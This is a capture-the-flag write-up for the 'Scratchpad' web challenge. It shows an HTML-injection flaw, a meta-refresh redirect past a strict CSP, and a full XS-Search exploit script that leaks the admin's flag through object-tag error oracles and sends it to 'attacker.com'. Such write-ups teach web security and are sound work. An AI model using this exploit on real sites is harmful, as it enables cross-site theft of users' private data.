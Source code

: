 # Scratchpad (web, 324p, 19 solves)

![main](./files/main.png)

Scratchpad is Web challenge implementing a simple note taking application where you can authenticate, register, create/delete/edit and **report** a note composed of a title and a description.

The application source code is available here:

[sources](./files/sources)

Reporting a note will make the admin authenticate with his credentials and consume the note with a **firefox** browser:

```typescript
const driver = new Builder()
  .forBrowser("firefox")
  .setFirefoxOptions(
    new firefox.Options()
      .headless()
      .setAlertBehavior(UserPromptHandler.DISMISS) as firefox.Options
  )
  .build();
try {
  console.log("Logging in");
  await driver.get(new URL("/login", baseUrl).toString());
  let el = await driver.findElement(By.id("name"));
  await el.sendKeys("admin");
  el = await driver.findElement(By.id("password"));
  await el.sendKeys(adminPassword);
  el = await driver.findElement(By.id("submit"));
  await el.click();

  console.log("Visiting report");
  await driver.get(new URL(`/notes/${id}`, baseUrl).toString());
  await driver.sleep(30 * 1000);
} finally {
  await driver.quit();
}
```

On the top left corner we also noticed this search bar linked to a specific `POST` form.

![home](./files/home.png)

Creating a simple note with `<img src=x>` shows that the note renderer template is vulnerable to XSS:

![img-src](./files/img-src.png)

However, the CSP in place does not allow us inject any type of script, image, iframe or object pointing on something else than self (it is very strict):

```http
Content-Security-Policy: default-src 'none';
                         style-src 'self';
                         img-src 'self';
                         form-action 'self';
                         base-uri 'none';
```

> We know the flag is in the admin notes, and there is an "IDOR" on the `/notes/:id` endpoint. Even if an UUID is unique enough, if we can leak it, we can access the content of the admin note.

```typescript
import * as assert from "assert";
import * as massive from "massive";
import utils from "./utils";

assert.ok(process.env.ADMIN_PASSWORD, "ADMIN_PASSWORD is not set");
assert.ok(process.env.FLAG, "FLAG is not set");
assert.ok(process.env.DB, "DB is not set");

async function main() {
  const db = await massive(process.env.DB);

  // Creates admin use
  const user = await db.users
    .insert({
      name: "admin",
      password: utils.hashPassword(process.env.ADMIN_PASSWORD),
    })
    .catch(console.log);

  // Insert flag
  await db.notes.insert({
    user_id: user.id,
    title: "Flag",
    content: process.env.FLAG,
    favourite: true,
  });
}

main();
```

## Going deeper

Trying a few things on the `q` parameter to search note, we found that the parameter is being translated as a regex by the massiveJS "ORM". This allows us to perform simple queries such as.

```shell
# Having a note with 'abcdefghijklmnopqrst' as name/description

http://scratchpad.hackable.software:3000/notes?q=a.*    -> 200
http://scratchpad.hackable.software:3000/notes?q=ab.*   -> 200
http://scratchpad.hackable.software:3000/notes?q=abc.*  -> 200
http://scratchpad.hackable.software:3000/notes?q=abz.*  -> 404
http://scratchpad.hackable.software:3000/notes?q=abcd.* -> 404
```

We can use the `object` tag in firefox to get an oracle and perform XSS Search if we are able to redirect the user on our own domain.

[https://twitter.com/k33r0k/status/1247381548384518144](https://twitter.com/k33r0k/status/1247381548384518144)

To perform a redirect with the in place CSP, we used the `meta` tag method:

```html
<meta http-equiv="refresh" content="0;URL='http://attacker.com:31337/'" />
```

The victim is now on our domain, executing our javascript/html.

```html
<object data=http://scratchpad.hackable.software:3000/notes?q=D.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dg.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dgr.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dgx.* onerror=willnotbecalled()></object>
```

If a 404 error occurs, the onerror callback will be call. Otherwise, we can leak the found character.

We can automate this oracle to leak the flag:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <div id="container"></div>
    <script src="main.js"></script>
  </body>
</html>
```

```javascript
const BASE = "http://scratchpad.hackable.software:3000/notes?q=";

const LEAK_URL = "http://attacker.com:31337/?found=";

const RANGE = { min: 0, max: 0x7f };

function escapeRegExp(string) {
  return string.replace(/[.*+\-?^${}()|[\]\\]/g, "\\$&"); // $& means the whole matched string
}

async function leak(content) {
  return await fetch(`${LEAK_URL}${content}`);
}

async function addObject(url, callback) {
  const o = document.createElement("object");
  o.setAttribute("data", url);
  o.setAttribute("style", "width: 100%;height: 300px;");

  o.addEventListener("error", callback);

  const container = document.getElementById("container");

  container.appendChild(o);
}

function getHex(n) {
  const h = (s) => ("00" + s.toString(16)).substr(-2);
  return `\\x${h(n)}`;
}

async function checkRange(prefix, min, max) {
  console.log(`checkRange(${prefix}, ${min}, ${max})`);

  // We found a valid char, leak it, and go for the next one
  if (min === max) {
    const ch = String.fromCharCode(min);
    await leak(prefix + ch);
    return await checkRange(prefix + ch, RANGE.min, RANGE.max);
  }

  const half = Math.floor((min + max) / 2);

  const testRange = async (prefix, min, max, err) => {
    const payload = `${escapeRegExp(prefix)}[${getHex(min)}-${getHex(max)}]`;
    await addObject(BASE + encodeURIComponent(payload), err);
  };

  // Test the first half
  await testRange(prefix, min, half, async () => {
    await checkRange(prefix, half + 1, max);
  });

  // Test the second half
  await testRange(prefix, half + 1, max, async () => {
    await checkRange(prefix, min, half);
  });
}

async function main() {
  // DrgnS{NoSameSiteCookiesByDefault?!}
  return await checkRange("DrgnS", RANGE.min, RANGE.max);
}

main();
```

Reporting our note containing the `meta` tag will redirect the admin on our page. The page will then generate enough `object` tags to leak all the character of the flag using XSSSearch:

![flag](./files/flag.png)
